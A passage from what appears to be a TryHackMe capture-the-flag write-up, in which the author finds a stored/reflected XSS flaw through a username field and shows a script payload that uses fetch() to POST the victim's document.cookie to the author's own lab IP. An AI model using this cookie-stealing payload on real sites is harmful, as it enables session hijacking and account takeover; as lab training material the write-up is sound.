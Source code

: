 I thought about testing for XSS, maybe I can craft some user cookie and use it to login :

![Alt text](<../../../assets/images/THMPics/Pasted image 20240111134804.png>)

After adding a comment as our user which name is an XSS payload, we can see that the website is vulnerable to reflected XSS :

![Alt text](<../../../assets/images/THMPics/Pasted image 20240111134856.png>)

The after a lot of research, I tried to steal the user's cookie using XSS, first I used the bellow payload as a name for a new user :

```js
<script>fetch("http://10.9.1.117:80",{method: "POST", body: document.cookie});</script>
```
